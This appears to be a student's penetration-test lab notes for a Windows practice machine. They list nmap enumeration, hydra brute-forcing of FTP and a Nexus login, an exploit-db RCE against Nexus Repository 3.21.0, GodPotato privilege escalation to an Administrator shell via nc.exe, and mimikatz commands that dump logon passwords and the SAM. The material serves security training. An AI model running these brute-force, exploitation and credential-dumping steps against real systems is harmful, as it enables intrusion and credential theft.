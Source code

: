 ### Enumeration
```
IP=192.168.170.61
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p21,80,135,139,445,5040,7680,8081,49664,49665,49666,49667,49668,49669 -A $IP
```
### Ports 
- 21
	- Microsoft ftpd
- 80
	- Microsoft IIS httpd 10.0
- 135
	- RPC
- 139
	- RPC
- 445
	- microsoft-ds
- 5040
	- unknown
- 7680
	- pando pub
- 8081
	- Jetty 9.4.18.v20190429
- 49664
	- RPC
- 49665
	- RPC
- 49666
	- RPC
- 49667
	- RPC
- 49668
	- RPC
- 49669
	- RPC
### Foothold
- 21
	- ftp anonymous@$IP
		- Policy requires SSL. login failed
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
		- [ERROR] all children were disabled due too many connection errors
- RPC/ SMB
	- enum4linux -U $IP
		- nothing
- 445
	- smbclient -N -L //$IP
		- access denied
	- nmap --script smb-vuln* -p135,139,445 $IP
- 80
	- Default landing page
		- ![[Pasted image 20240714130729.png]]
	- Search
		- Searched 123. Put ? in url
		- http://192.168.170.61/?
	- Upload
		- ![[Pasted image 20240714130953.png]]
		- Maybe we can upload malicious package
	- Versions
		- BaGet
	- Directory Brute force
		- dirsearch -u http://$IP
			- nothing
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- 8081
	- Default landing page
		- ![[Pasted image 20240714131139.png]]
	- Versions
		- Sonatype Nexus Repository Manager OSS 3.21.0-05
			- Googled Nexus Repository Manager OSS 3.21.0-05
				- exploit-db 49385  authenticated
				- Edit the url and the command to be base64 PS1 - gets rce
	- Directory Brute force
		- dirsearch -u http://$IP
			- /robots.txt
				- Disallow: /repository/
					- 404
				- Disallow: /service/
					- 404
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Login brute force
		- Capture login request with burp
		- Put into req.txt
		- Create custom wordlist from website
			- cewl http://$IP:8081/ | grep -v CeWL > custom-wordlist.txt
			- cewl --lowercase http://$IP:8081/ | grep -v CeWL  >> custom-wordlist.txt
		- hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://192.168.170.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
			- nexus:nexus
			- successful login
### PE
#### Windows
- nathan
	- whoami /all
		- SeImpersonatePrivilege enabled
			- PrintSpoofer64.exe
				- operation failed or timed out
			- God potato
				- Moved nc.exe over to system. Then executed to get shell as Administrator
				- ![[Pasted image 20240714134502.png]]
		- SeCreateGlobalPrivilege enabled
		- SeChangeNotifyPrivilege enabled
	- net user USERNAME
		- Check group memberships
		- nothing
	- systeminfo
		- `./wes.py ~/OSCP/boxes/medjed/systeminfo.txt  > ~/OSCP/boxes/medjed/systeminfo_exploits.txt`
		- windows 10 pro 10.0.18362 N/A Build 18362
		- x64
	- history
		- (Get-PSReadLineOption).HistorySavePath
			- type PATH
			- ![[Pasted image 20240714133818.png]]
	- Users with console
		- nathan
		- BaGet
	- Unquoted
		- cmd
			- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
		- PS1
			- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
		- icacls Filepath before .exe
			- Looking for W or F
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
### Credentials
- nexus:nexus
### Lessons Learned